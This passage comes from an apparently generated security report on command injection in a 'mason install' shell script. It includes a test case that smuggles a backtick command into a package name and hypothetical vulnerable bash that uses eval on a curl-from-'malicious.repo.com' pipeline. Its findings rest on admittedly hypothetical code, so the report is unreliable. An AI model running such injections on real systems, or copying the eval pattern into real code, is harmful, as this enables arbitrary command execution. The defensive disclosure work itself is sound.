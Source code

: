         if [ "$1" == "install" ]; then
          install_package "$2" "$3" # $2 is package_name, $3 is package_version
        fi
        ```
        In this hypothetical example, if `$2` (package name) contains backticks, semicolons, or other shell command separators, it could lead to command injection via the `eval` command.

- **Security Test Case**:
    - **Step 1**: Prepare a malicious package name: `malicious-package-\`touch /tmp/pwned\``
    - **Step 2**: Execute the `mason install` command with the malicious package name: `./mason/mason install malicious-package-\`touch /tmp/pwned\` 1.0.0`
    - **Step 3**: Check for command execution: Verify if the file `/tmp/pwned` was created. If the file exists, it confirms successful command injection.

---

### Vulnerability 2: Command Injection in `mason install` command via Package Version

- **Description**:
    - Similar to Vulnerability 1, but the threat actor crafts a malicious package version string containing shell metacharacters.
    - When a user executes `mason install <package_name> <version>` with this malicious version, the `mason install` script uses the unsanitized version in a shell command, leading to arbitrary command execution.

- **Impact**:
    - **Critical**. Same as Vulnerability 1. Full system compromise is possible.

- **Vulnerability Rank**: Critical

- **Currently Implemented Mitigations**:
    - None.

- **Missing Mitigations**:
    - **Input Sanitization**: Same as Vulnerability 1. Implement robust input validation and sanitization for package names and versions.
    - **Parameterized Queries/Commands**: Same as Vulnerability 1. Use safer alternatives to shell scripting.

- **Preconditions**:
    - User must execute the `mason install` command with a maliciously crafted package version.
    - The user's system must be vulnerable to command injection.

- **Source Code Analysis**:
    - Similar to Vulnerability 1, the `mason install` command is the entry point.
    - **File: `/code/mason.sh`**: Analyze the same code sections as in Vulnerability 1.
    - **Visualization**:
        ```
        User Input (package_version) --> mason install script --> Command Construction (unsanitized package_version embedded) --> Shell Execution --> Vulnerability
        ```
    - **Example Scenario (Hypothetical code in `mason.sh`):**
        ```bash
        # Hypothetical vulnerable code in mason.sh
        install_package() {
          package_name="$1"
          package_version="$2"
          # Vulnerable command construction:
          command="mkdir -p ./mason_packages/$package_name/$package_version && curl -sSL http://malicious.repo.com/$package_name-$package_version.tar.gz | tar -xz -C ./mason_packages/$package_name/$package_version"
          eval "$command" # Command Injection vulnerability here
        }